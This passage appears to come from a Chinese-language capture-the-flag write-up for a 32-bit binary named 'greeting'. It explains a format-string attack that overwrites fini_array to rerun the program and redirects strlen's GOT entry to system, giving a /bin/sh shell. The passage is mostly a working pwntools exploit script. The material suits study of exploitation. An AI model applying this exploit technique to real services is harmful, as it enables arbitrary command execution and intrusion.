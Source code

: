 ![Alt](img/format-4.png)
![Alt](img/format-5.png)

可以看到，getnline限制了输入长度为64，且getnline函数中获取输入后将单参数传给strlen，恰好strlen在got表中，所以可以劫持该函数为system，在程序第二次执行时获取输入后即执行system函数。
综上，把fini_array中的第一项指针覆盖为start地址,使之可以重新运行；把strlen_got覆盖为system_plt地址；重新运行后，输入'/bin/sh\x00'，执行strlen时即执行system('/bin/sh\x00')。

所以有如下脚本：

```python
    from pwn import *
    p = process('./greeting')
    elf = ELF('./greeting')

    fini_array = 0x08049934
    start = 0x080484f0
    system_plt = elf.plt['system']
    log.info("system_plt = %#x",system_plt)
    strlen_got = elf.got['strlen']
    log.info("strlen_got%#x",strlen_got)

    p.recv()

    payload = 'aa'  # 填充位，防止错位('Nice to meet you, '长度为18，加上aa后长度为20，刚好为4的整数倍，对齐满足)
    payload += p32(fini_array)  # fini_array第一项(__do_global_dtors_aux 0x080485a0)只有低2字节和start不一致，所以这里只需要修改两个字节
    payload += p32(strlen_got+2)    # 先修改高地址两个字节
    payload += p32(strlen_got)      # 后修改低地址两个字节
    payload += "%" + str((start&0xffff)-32)     # 减去输出的32字节：'Nice to meet you, aa4\x99\x04\x08V\x9a\x04\x08T\x9a\x04\x08'
    payload += "c%12$hn"

    payload += "%" + str(((system_plt>>16)&0xffff)+0x10000-(start&0xffff))
    payload += "c%13$hn"

    payload += "%" + str((system_plt&0xffff)-((system_plt>>16)&0xffff))
    payload += "c%14$hn"

    p.sendline(payload)
    p.sendline('/bin/sh')
    p.interactive()
```
